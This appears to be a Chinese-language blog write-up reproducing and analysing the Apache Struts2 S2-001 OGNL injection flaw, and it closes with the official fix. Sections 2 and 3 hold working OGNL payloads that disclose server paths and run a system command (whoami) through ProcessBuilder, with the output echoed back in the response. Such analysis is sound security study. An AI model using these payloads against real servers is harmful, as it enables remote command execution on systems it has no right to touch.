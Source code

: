 ```yaml
---
title: s2-001复现分析
date: 2021-08-10 21:05:49
categories:
- 代码审计
tags:
- struts2
- s2-001
# description: 描述
# comments: 是否可以评论（默认true：可评论）
cover: index.jpg
---
```


## 1.漏洞原因
官方说明：
https://cwiki.apache.org/confluence/display/WW/S2-001

```shell
The 'altSyntax' feature of WebWork 2.1+ and Struts 2 allows OGNL expressions to be inserted into text strings and is processed recursively. This allows a malicious user to submit a string, usually through an HTML text field, containing an OGNL expression that will then be executed by the server if the form validation has failed. For example, say we had this form that required the 'phoneNumber' field to not be blank:
```

```jsp
<s:form action="editUser">
  <s:textfield name="name" />
  <s:textfield name="phoneNumber" />
</s:form>
```

```shell
The user could leave the 'phoneNumber' field blank to trigger the validation error, then populate the 'name' field with `%`{1+1}. When the form is re-displayed to the user, the value of the 'name' field will be '2'. The reason is the value field is, by default, processed as %{name}, and since OGNL expressions are evaluated recursively, it is evaluated as if the expression was `%`{`%`{1+1}}.

The OGNL parsing code is actually in XWork and not in WebWork 2 or Struts 2.
```

### 简单翻译就是：
WebWork 2.1+和Struts2的“altSyntax”功能允许将OGNL表达式插入文本字符串并进行递归处理。 这允许恶意用户通常通过HTML文本字段提交包含OGNL表达式的字符串，如果表单验证失败，该字符串将由服务器执行。 例如，假设我们有一个要求'phoneNumber'字段不为空的表格：

```jsp
<s:form action="editUser">
  <s:textfield name="name" />
  <s:textfield name="phoneNumber" />
</s:form>
```

用户可以将“ phoneNumber”字段留空以触发验证错误，然后在“ name”字段中填充％{1 + 1}。 当表单重新显示给用户时，“名称”字段的值将为“ 2”。 原因是默认情况下，值字段被处理为％{name}，并且由于OGNL表达式是递归求值的，因此它的计算就好像表达式是％{％{1 + 1}}一样。

OGNL解析代码实际上在XWork中，而不在WebWork 2或Struts 2中。


关键点在这两句话：

1. 允许恶意用户通常通过HTML文本字段提交包含OGNL表达式的字符串，如果表单验证失败，该字符串将由服务器执行

2. 原因是默认情况下，值字段被处理为％{name}，并且由于OGNL表达式是递归求值的，因此它的计算就好像表达式是％{％{1 + 1}}一样。


第一句话的理解：

OGNL表达式的字符串,如果表单验证失败，则字符串由服务器执行。

OGNL表达式字符串：

https://xz.aliyun.com/t/2672#toc-3 可以看这篇文章，有详细的介绍。

https://juejin.cn/post/6844904013683507207 ognl语法介绍

表单验证失败：

在使用了s2`<s>`标签时，验证失败返回首页时会将表达式内容执行并返回到标签框中。

第二句话理解：

参考：https://b1ue.cn/archives/93.html

默认情况下，值字段被处理为％{name}，并且由于OGNL表达式是递归求值的，因此它的计算就好像表达式是％{％{1 + 1}}一样。

我们输入了`%{233*233}`按理应该返回`%{233*233}`。但是s2会给输入加上`%{}`,所以变成了`%{`%`{233*233}}`。因为translateVariables方法递归执行了ognl表达式。所以计算了`233*233`。
`altSyntax` 功能允许将OGNL表达式插入到文本字符串中并以递归方式处理。

## 2.poc利用
poc:

```java
%{1+1}
```
![](./2.1.png)

获取tomcat路径：

```java
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```

获取web路径：

```java
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```


命令执行payload:

```java
%25{`%`23a%3d(new+java.lang.ProcessBuilder(new+java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),%23b%3d%23a.getInputStream(),%23c%3dnew+java.io.InputStreamReader(%23b),%23d%3dnew+java.io.BufferedReader(%23c),%23e%3dnew+char[50000],%23d.read(%23e),%23f%3d%23context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),%23f.getWriter().println(new+java.lang.String(%23e)),%23f.getWriter().flush(),%23f.getWriter().close()}
```

执行结果：

![2.1.1](./2.2.png)


## 3. poc构建分析

```java
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),
#f.getWriter().close()}
```

ognl表达式构建对象。执行命令。

`#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),`命令执行存储到a属性,申请一个存储流到e属性，调用`com.opensymphony.xwork2.dispatcher.HttpServletResponse`进行回显。

## 4.漏洞分析
https://b1ue.cn/archives/93.html

## 5.漏洞修复

官方给出的修复方案是将altSyntax默认关闭，使用break打断递归查询。

反编译对比xwork-2.0-beta-1.jar和xwork-2.0.5.jar：

![5.1](./5.1.png)

发现在xwork-2.0.5中将返回改成了break。以此来修复递归执行ognl表达式。
